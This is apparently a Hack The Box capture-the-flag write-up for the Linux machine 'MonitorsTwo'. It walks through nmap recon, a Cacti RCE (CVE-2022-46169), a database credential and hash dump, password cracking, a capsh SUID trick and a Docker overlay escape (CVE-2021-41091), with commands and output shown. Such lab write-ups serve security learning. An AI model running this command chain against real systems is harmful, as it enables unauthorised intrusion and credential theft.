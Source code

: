 # MonitorsTwo
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -Pn -sC -sV -oA nmap/initial 10.10.11.211
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-04 10:43 CEST
Nmap scan report for 10.10.11.211
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.39 seconds
```

## 2. TCP-80
There is an active service on port 80 ! 

<p align="center">
  <img src="Images/home.png" />
</p>

We find a login form which we try to access with default credentials (such as `admin:admin`) but to no avail.

**BACKGROUND**

    "Cacti is an open-source, web-based network monitoring, performance, fault and configuration management framework designed as a front-end application for the open-source, industry-standard data logging tool [RRDtool]( https://en.wikipedia.org/wiki/RRDtool)." (from [Wikipedia](https://en.wikipedia.org/wiki/Cacti_(software)))

## 3. RCE - CVE-2022-46169
After a little research I find that it is possible to bypass the login and perform a RCE. So I found an [exploit](https://github.com/MarkStrendin/CVE-2022-46169/tree/main) that allowed me to have a shell.

<p align="center">
  <img src="Images/poc.png" />
</p>

Searching in the various folders, you can find the file `entrypoint.sh`, in the root directory, where there are credentials to access a mysql db.

```bash
www-data@50bca5e748b0:/$ cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

In the file we also find queries that are made to change the admin password so we know which table will contain this information and then we run a query on that table.

```bash
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_trees    policy_hosts        policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      on      on      on      2       1       1       1       1       on      -1      -1 -1               0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1       1       1       1       1       on      -1      -1 on       0       0       2135691668
```

In addition to the admin we find another user and therefore the idea is to try to crack the password using `JohnTheRipper`.

```bash
└─$ john hash_pass --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)     
1g 0:00:01:23 DONE (2023-08-04 15:57) 0.01203g/s 102.6p/s 102.6c/s 102.6C/s lilpimp..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Once the password is found, we connect via ssh and find the user flag.

```bash
└─$ ssh marcus@10.10.11.211
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 04 Aug 2023 01:58:49 PM UTC

  System load:                      0.0
  Usage of /:                       63.0% of 6.73GB
  Memory usage:                     15%
  Swap usage:                       0%
  Processes:                        239
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:4c05


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ ls
user.txt
marcus@monitorstwo:~$ cat user.txt 
5e26ec3209c05ec886eef90b1da62b00
```

## 4. User to ROOT
We are in a container and the first thing I checked is its version.

```bash
marcus@monitorstwo:/tmp$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Searching for this version of Docker on the internet, it was discovered that it is vulnerable and in particular the first result is an [exploit](https://github.com/UncleJ4ck/CVE-2021-41091) which refers to the CVE-2021-41091 to which this vulnerability refers.

On the exploit's github page, it is noted that the SUID of `/bin/bash` must be set for the exploit to work.

To search for a solution, [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) was used, both logged in by *marcus*, without finding anything, and from the previously established session.

<p align="center">
  <img src="Images/capsh.png" />
</p>

It is interesting what linpeas reports in the "*Files with Interesting Permissions*" as there is `capsh` which, after a short search, turned out to be the point through which the SUID can be set. In particular, the command present in an article of [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) was used.

```bash
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
whoami
root
chmod u+s /bin/bash
```

At this point we run the exploit, loaded by opening a local python server.

```bash
marcus@monitorstwo:/tmp$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

Then we run `bash -p` in the directory notified by the exploit and get the root flag.

```bash
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
d5acf148181ca7850891559a2fec2c26
```